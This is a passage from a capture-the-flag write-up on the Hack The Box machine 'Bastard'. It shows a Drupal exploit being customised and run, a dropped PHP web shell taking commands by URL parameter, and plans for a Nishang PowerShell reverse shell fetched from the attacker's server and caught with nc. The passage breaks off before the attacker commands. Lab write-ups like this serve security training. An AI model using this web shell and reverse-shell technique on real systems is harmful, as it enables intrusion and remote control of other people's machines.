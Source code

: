 When I run the exploit I notice that the host it is trying to resolve does not exist, so I must customize the script. The parameter values I have to modify are the **URL** and the path to the **Endpoint**, the latter because it does not exist on the server but doing some guessing I find the indicated path. I also modify the content of the malicious file that is uploaded to the server to obtain an **RCE**, once all the changes are done I run the exploit and it informs me the path where the malicious file is hosted. I can now run some basic **Recon** commands and confirm that the compromised machine is the real one and not a container.

```bash
cat drupal_exploit.php
nvim !$
nvim drupal_exploit.php
php drupal_exploit.php
# :) File written: http://10.129.115.148/oldb0y.php

# http://10.129.115.148/oldb0y.php?cmd=whoami
# view-source:http://10.129.115.148/oldb0y.php?cmd=hostname
# view-source:http://10.129.115.148/oldb0y.php?cmd=ipconfig
```

<br />
<img src="{{ site.img_path }}/bastard_writeup/Bastard_11.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/bastard_writeup/Bastard_12.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/bastard_writeup/Bastard_13.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/bastard_writeup/Bastard_14.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/bastard_writeup/Bastard_15.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/bastard_writeup/Bastard_16.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/bastard_writeup/Bastard_17.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

Now that I can execute commands on the target machine, I am going to use one of **[Nishang's scripts](https://github.com/samratashok/nishang){:target="_blank"}** to obtain a **Reverse Shell**, I must customize it first so that when it is downloaded it executes the module in charge of connecting to my attacking machine (this way I perform only one action instead of two when compromising the system). I am also going to use the native `powershell.exe` binary of the system so that the **[generated process is 64bits](https://stackoverflow.com/questions/19055924/how-to-launch-64-bit-powershell-from-32-bit-cmd-exe){:target="_blank"}** and avoid later problems like the execution of possible exploits to **Escalate privileges**. Now I just need to configure a local server with `python`, open port **443** with `nc` to wait for the connection from the target machine, run the command from the browser and I can access the box.

> **Attacker Machine**:
